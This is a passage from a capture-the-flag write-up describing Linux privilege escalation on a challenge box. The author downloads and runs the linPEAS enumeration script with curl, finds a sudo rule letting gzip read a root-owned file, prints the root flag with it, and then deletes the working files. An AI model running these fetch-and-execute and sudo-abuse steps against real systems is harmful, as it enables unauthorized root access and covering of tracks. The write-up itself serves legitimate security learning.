 ![ssh access](/assets/img/umass/hermit2/access.png)

From here on, I have tried a bunch of useless commands. Failed to find the other webserver which I imagined to be running there somewhere. In the end, I presumed that this is some sort of Linux privilege escalation challenge. While chatting with a friend, I learn about the [`linPEAS script`](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) and decided to give it a go.

```bash
mkdir /tmp/mediocre_one
cd /tmp/mediocre_one
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh > line.sh
chmod +x line.sh
./line.sh > out
```

The output of the `linPEAS` script had a lot of information so I took a shortcut.

```bash
cat out | grep flag
    (root) NOPASSWD: /bin/gzip -f /root/rootflag.txt -t
hermit ALL = (root) NOPASSWD: /bin/gzip -f /root/rootflag.txt -t
/home/hermit/flag
/home/hermit/flag/userflag.txt
drwxrwxr-t 1 root   root   4096 Mar 27 04:52 flag
/tmp/mediocre_one/out:hermit ALL = (root) NOPASSWD: /bin/gzip -f /root/rootflag.txt -t
/tmp/mediocre_one/out:    (root) NOPASSWD: /bin/gzip -f /root/rootflag.txt -t
```


```bash
sudo /bin/gzip -f /root/rootflag.txt -t
UMASS{a_test_of_integrity}

rm -rf /tmp/mediocre_one # clean up
```

---